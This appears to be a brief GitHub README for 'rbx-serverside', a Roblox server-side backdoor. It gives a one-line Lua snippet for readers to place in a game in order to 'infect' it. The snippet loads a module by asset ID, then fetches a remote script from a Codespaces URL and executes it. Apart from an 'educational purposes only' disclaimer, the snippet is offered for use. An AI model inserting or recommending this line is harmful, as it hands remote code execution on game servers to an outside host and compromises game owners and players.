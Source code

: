 # rbx-serverside
[roblox serverside](https://lonely-werewolf-q7g5wgwg9xgxcx6jw-3000.app.github.dev/)


to infect a game put: 
  ```lua
    require(108059886578663)(game:GetService("HttpService"):GetAsync("https://lonely-werewolf-q7g5wgwg9xgxcx6jw-3000.app.github.dev/script.lua"))()
  ```
educational purposes only
